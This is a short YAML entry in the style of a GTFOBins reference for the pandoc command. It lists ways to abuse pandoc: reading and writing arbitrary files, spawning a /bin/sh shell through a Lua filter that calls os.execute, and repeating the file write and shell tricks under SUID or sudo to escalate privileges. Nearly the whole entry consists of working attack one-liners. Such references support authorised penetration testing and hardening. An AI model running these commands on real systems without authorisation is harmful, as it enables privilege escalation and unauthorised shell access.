 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        pandoc -t plain "$LFILE"
  file-write:
    - code: |
        LFILE=file_to_write
        echo DATA | pandoc -t plain -o "$LFILE"
  shell:
    - description: |
        Pandoc has a builtin Lua interpreter for writing filters.
    - code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        pandoc -L $TF /dev/null
  suid:
    - code: |
        LFILE=file_to_write
        echo DATA | ./pandoc -t plain -o "$LFILE"
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo pandoc -L $TF /dev/null
---
```

